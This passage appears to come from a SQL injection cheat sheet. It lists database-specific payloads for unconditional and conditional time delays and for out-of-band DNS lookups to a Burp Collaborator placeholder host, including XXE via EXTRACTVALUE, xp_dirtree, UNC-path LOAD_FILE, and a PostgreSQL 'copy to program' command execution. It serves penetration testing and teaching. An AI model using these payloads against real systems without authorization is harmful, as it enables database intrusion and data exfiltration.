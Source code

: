 #### Note

​                With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target  application uses certain PHP or Python APIs to communicate with a MySQL  database.            

## Time delays

​            You can cause a time delay in the database when the query is processed. The following will cause an unconditional time delay of 10  seconds.        

| Oracle     | `                    dbms_pipe.receive_message(('a'),10)                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    WAITFOR DELAY '0:0:10'                ` |
| PostgreSQL | `                    SELECT pg_sleep(10)                `    |
| MySQL      | `                    SELECT SLEEP(10)                `       |

## Conditional time delays

​            You can test a single boolean condition and trigger a time delay if the condition is true.        

| Oracle     | `                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual                ` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'                ` |
| PostgreSQL | `                    SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END                ` |
| MySQL      | `                    SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')                ` |

## DNS lookup

​            You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in  your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.        

| Oracle     | The following technique leverages an XML external entity ([XXE](https://portswigger.net/web-security/xxe)) vulnerability to trigger a DNS lookup. The vulnerability has been  patched but there are many unpatched Oracle installations in existence:                     `SELECT EXTRACTVALUE(xmltype('<?xml  version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY %  remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/">  %remote;]>'),'/l') FROM dual`                                          The following technique works on fully patched Oracle installations, but requires elevated privileges:                     `SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')` |
| ---------- | ------------------------------------------------------------ |
| Microsoft  | `                    exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'                ` |
| PostgreSQL | `                    copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'                ` |
| MySQL      | The following techniques work on Windows only:                     `LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')`                     `SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'` |

## DNS lookup with data exfiltration

​            You can cause the database to perform a DNS lookup to an  external domain containing the results of an injected query. To do this, you will need to use [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) to generate a unique Burp Collaborator subdomain that you will use in  your attack, and then poll the Collaborator server to retrieve details  of any DNS interactions, including the exfiltrated data.        
